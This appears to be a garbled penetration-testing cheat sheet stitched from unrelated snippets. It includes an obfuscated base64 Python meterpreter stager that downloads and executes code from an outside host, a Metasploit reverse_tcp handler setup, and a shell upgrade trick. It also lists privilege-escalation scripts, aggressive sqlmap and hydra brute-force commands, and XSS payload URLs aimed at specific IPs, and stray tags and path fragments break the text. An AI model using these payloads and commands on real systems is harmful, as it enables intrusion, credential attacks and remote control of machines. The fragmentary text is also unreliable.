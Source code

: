 ```use payload/python/meterpreter/reverse_http``` ![proxy2](https://user-images.githubusercontent.com/7115563/33836652-3d9c9624-de8a-11e7-9869-e18c5a28ebd7.png) ```python -c "import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('aW1wb3J0IHN5cwp2aT1zeXMudmVyc2lvbl9pbmZvCnVsPV9faW1wb3J0X18oezI6J3VybGxpYjInLDM6J3VybGxpYi5yZXF1ZXN0J31bdmlbMF1dLGZyb21saXN0PVsnYnVpbGRfb3BlbmVyJywnUHJveHlIYW5kbGVyJ10pCmhzPVtdCmhzLmFwcGVuZCh1bC5Qcm94eUhhbmRsZXIoeydodHRwJzonaHR0cDovLzE5Mi4xNjguMTA3LjIzMjo4MDgwJ30pKQpvPXVsLmJ1aWxkX29wZW5lcigqaHMpCm8uYWRkaGVhZGVycz1bKCdVc2VyLUFnZW50JywnTW96aWxsYS81LjAgKFdpbmRvd3MgTlQgNi4xOyBUcmlkZW50LzcuMDsgcnY6MTEuMCkgbGlrZSBHZWNrbycpXQpleGVjKG8ub3BlbignaHR0cDovLzE3OC42Mi41OC4zNTo4MC9qOTkzQScpLnJlYWQoKSkK')))"``` Finally we set up the handler: ![proxy3](https://user-images.githubusercontent.com/7115563/33836552-fd3204ac-de89-11e7-940c-71c8ab321bf7.png)

<pre>sshuttle -vr user@192.168.207.57 180.46.0.0/16</pre>

![shuttle2](https://user-images.githubusercontent.com/7115563/34785498-a0b5c8c0-f631-11e7-8f3d-75e0ade96275.png) Proof: ![mantis2](https://user-images.githubusercontent.com/7115563/34785499-a0e7d838-f631-11e7-869f-d6fcdc1051e9.png) Reference: http://teohm.com/blog/using-sshuttle-in-daily-work/</port></user></ip></ip></ip></ip></ip></ip></ip></ip></port></ip>

Download from apache directory list
wget -m -np http://eamos.pf.jcu.cz/amos/kat_inf/externi/

$ nmap -p- -oA nmap.tcp 192.168.66.129
$ nmap -sU -p- -oA nmap.udp 192.168.66.129

$ ./dirsearch.py -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -e php -u 192.168.66.129

$ python -c `import pty; pty.spawn("/bin/sh")`
$ stty raw -echo

LinEnum.sh
linuxprivchecker.py
unixprivesc.sh


  ./dirsearch.py -u http://88.198.233.174:42272 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e php -f -r

  sqlmap -r /tmp/req.txt -v -a --level 4 --risk 3

hydra 88.198.233.174 -s 42159 http-form-post "/index.php:password=^PASS^:Invalid password!" -l '' -P /usr/share/wordlists/seclists/Passwords/rockyou-75.txt -t 10 -w 30 -o hydra-http-post-attack.txt

nmap -sS -A -PN -p- --script=http-title dontscanme.bro




http://185.45.192.228/xssChall/1.php?xss=%27;alert(String.fromCharCode(88,83,83))//%27;alert(String.fromCharCode(88,83,83))//%22;alert(String.fromCharCode(88,83,83))//%22;alert(String.fromCharCode(88,83,83))//--%3E%3C/SCRIPT%3E%22%3E%27%3E%3CSCRIPT%3Ealert(String.fromCharCode(88,83,83))%3C/SCRIPT%3E
http://185.45.192.228/xssChall/2.php?xss=images.jpeg%27onmouseover=%22alert(%27xxs%27)%22
http://185.45.192.228/xssChall/3.php?xss=<script>window.onload=function(){eval(window.atob('ZXZhbChhbGVydCgxKSk7Cg=='))}</script>


http://185.45.192.228/xssChall/5.php?xss=%22onmousemove=%22window[%27al\u0065rt%27](1337)%22

http://185.45.192.228/xssChall/6.php?xss=%27%3Cscript%3Ewindow.onload=function(){window[%27al\u0065rt%27](1337)}%3C/script%3E


gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.27 -x '.php' -e -t 25

gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.27   -e -t 25


use exploit/multi/handler
set PAYLOAD  php/meterpreter/reverse_tcp
set LHOST 10.10.17.29
set LPORT 5555
```
